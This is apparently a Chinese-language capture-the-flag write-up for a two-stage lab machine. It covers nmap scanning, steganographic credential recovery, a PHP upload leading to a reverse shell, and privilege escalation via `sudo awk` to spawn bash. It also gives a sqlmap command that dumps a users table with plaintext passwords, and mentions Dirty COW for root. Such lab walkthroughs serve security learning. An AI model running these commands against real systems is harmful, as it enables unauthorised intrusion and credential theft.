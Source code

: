 # 主机发现

![image-20230310151858265](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310151858265.png)

# 端口扫描

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6afed61723cb90792bb12d3753974658 (RSA)
|   256 5bc468d18959d748b096f311871c08ac (ECDSA)
|_  256 613966881d8ff1d040611e99c51a1ff4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: qdPM | Login
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:AD:57:CB (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
```

upp扫描

```
null
```

漏洞扫描

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-sql-injection: 
|   Possible sqli for forms:
|     Form at path: /index.php/login/restorePassword, form's action: /index.php/login/restorePassword. Fields that might be vulnerable:
|_      restorePassword[email]
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|   /robots.txt: Robots file
|   /batch/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /core/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /install/: Potentially interesting folder
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /secret/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /template/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.0.1
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

# web信息收集

根据漏洞扫描所得到的目录尝试访问：

值得关注的地方

![image-20230310153211695](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310153211695.png)

中间件版本`Apache/2.4.38 (Debian) Server`

```
username: otis
password: "<?php echo urlencode('rush') ; ?>"
```

验证ssh确认用户存在

拿到一张图，wp中描述有隐写，使用setgseek获取内容

![image-20230310162539882](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310162539882.png)

得到密码

```
otisrush@localhost.com
otis666   
```

在主页发现了上传图片的地方，但是过滤不够严格，php也是能上传的

上传木马反弹shell

# 漏洞利用

![image-20230310164952506](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310164952506.png)

特权命令`sudo awk 'BEGIN{system("/bin/bash")}'`

![image-20230310170707348](C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310170707348.png)

> 参考：https://www.cnblogs.com/zlgxzswjy/p/10216552.html#:~:text=%27BEGIN%20%7Bsystem(%22/bin/bash%22)%7D%27

发现新的靶机

# 获取靶机

通过移动到uploads目录下下载得到靶机

## 端口扫描

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 e84f84fc7a20378b2bf314a9549eb70f (DSA)
|   2048 0c1050f5a2d874f194c560d71a78a4e6 (RSA)
|_  256 050395760c7facdbb299137e9c26cad1 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Debian)
MAC Address: 00:0C:29:05:06:53 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
```

## 漏洞扫描

```
22/tcp open  ssh
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=172.16.170.41
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://172.16.170.41:80/
|     Form id: frmlogin
|     Form action: index.php
|     
|     Path: http://172.16.170.41:80/index.php
|     Form id: frmlogin
|_    Form action: index.php
```

> ps：python3 -m http.server 4444 开启网站

## web信息收集

web80端口运行着一个登录页面尝试了密码都不能登录，用sqlmap跑一下得到

`sqlmap -u http://172.16.170.41/index.php -D doubletrouble -T users --dump --forms --batch`

<img src="C:\Users\june\AppData\Roaming\Typora\typora-user-images\image-20230310174324992.png" alt="image-20230310174324992" style="zoom:200%;" />

```
Database: doubletrouble
Table: users
[2 entries]
+----------+----------+
| password | username |
+----------+----------+
| GfsZxc1  | montreux |
| ZubZub99 | clapton  |
+----------+----------+

```

尝试登录web发现都不行

尝试22端口ssh

用户clapton登录成功

## 提权

linux版本是3.x,脏牛漏洞可用

上传至靶机编译运行，在/root/root.txt中获得flag

